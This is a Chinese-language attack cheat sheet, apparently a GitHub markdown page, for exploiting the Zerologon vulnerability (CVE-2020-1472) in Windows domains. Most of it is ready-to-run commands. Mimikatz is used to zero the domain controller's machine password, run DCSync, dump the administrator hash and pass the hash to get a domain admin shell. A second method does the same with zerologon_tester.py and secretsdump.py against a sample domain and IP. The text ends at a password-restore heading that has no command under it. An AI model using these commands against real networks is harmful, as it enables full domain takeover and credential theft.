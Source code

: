 ### Zerologon域内提权（CVE-2020-1472）

Netlogon远程协议的一个提权提升漏洞，可以在不提供任何凭据的情况下通过身份验证，并实现域内提权。即通过重置域控的机器用户的密码，来利用机器用户来DCSync导出域管理员密码，进而获取域控权限。

#### 获取域控机器账号

```bash
Nslookup -type=SRV _ldap._tcp
```

#### 方法一（Mimikatz内置利用模块）

探测是否有该漏洞

```bash
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:<DC-IP> /account:<DC-机器账户>" "exit"
```

重置密码

回显两个OK显示成功把密码置零，因为机器用户是不可以登录系统的，但是域控的机器用户具备Dcsync特权，我们就可以滥用该特权来进行Dcsync攻击

```bash
mimikatz.exe "privilege::debug" "lsadump::zerologon /target:<DC-IP> /ntlm /null /account:<DC-机器账户> /exploit" exit
```

使用Mimikatz来进行Dcsync并获取域管理员帐户的哈希

```bash
mimikatz.exe "privilege::debug" "lsadump::dcsync /dc:<DC-域名> /authuser:<DC-机器用户> /authdomain:<域名> /authpassword: /domain:<域名> /authntlm /user:administrator" "exit"
```

哈希注入起一个域管cmd

```bash
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:<域名> /ntlm:<哈希>" "exit"
```

通过域管cmd，恢复域控机器账户密码

```bash
mimikatz.exe "privilege::debug" "lsadump::postzerologon /target:<DC-IP> /account:<DC-机器账户>" "exit"
```

#### 方法二（使用脚本）

重置密码

```bash
python zerologon_tester.py <dc-name> <dc-ip>
# python zerologon_tester.py DC-1 10.10.10.11
```

使用`secretsdump.py`以空密码连接域控，并导出域管理员的哈希

```bash
python secretsdump.py hack_my.com/DC-1\$@10.10.10.11 -just-dc-user "hack-my\administrator" -no-pass
```

恢复域控密码
